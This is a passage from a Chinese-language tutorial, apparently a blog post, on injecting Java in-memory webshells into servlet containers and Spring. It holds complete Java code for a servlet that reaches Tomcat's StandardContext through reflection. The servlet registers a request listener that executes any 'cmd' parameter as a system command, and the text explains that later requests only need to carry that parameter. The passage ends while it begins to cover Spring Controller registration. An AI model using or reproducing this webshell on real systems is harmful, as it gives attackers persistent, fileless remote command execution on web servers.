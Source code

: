 ```java
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.EventListener;

public class ShellListener extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        standardContext.addApplicationEventListener(getListener());
    }
    
    public EventListener getListener() {
            return new ServletRequestListener() {
                @Override
                public void requestDestroyed(ServletRequestEvent sre) {
                }
                @Override
                public void requestInitialized(ServletRequestEvent sre) {
                    if(sre.getServletRequest().getParameter("cmd")!=null) {
                        try {
                            Runtime.getRuntime().exec(sre.getServletRequest().getParameter("cmd"));
                        } catch (IOException e) {
                            throw new RuntimeException(e);
                        }
                    }
                }
            };
    }
}

```
访问路由后,在之后的请求中带上cmd参数即可.
## 基于框架
跳开Servlet API的局限,同样只要是提供了类似的方法和模式的框架都可以进行内存马的注入.
### Spring框架
以Spring框架为例,其Controller有点类似于Servlet,其路由模式都依赖于URL的路径映射,而在Spring中同样有动态添加Controller的方法,而在Spring中注入内存马的方法在大部分场景下都是通过反序列化等直接执行java代码了,因为Spring生态对jsp支持并不好.
#### Controller
在Spring中Controller注解配置了方法与URL的路径关系,而解析Controller注解的流程始于SpringMVC初始化时对每个Bean进行初始化时会对含有Controller注解的bean调用`RequestMappingHandlerMapping`类进行处理.
##### Controller的注册流程  
SpringMVC在启动时,对Bean的初始化流程大致如下.  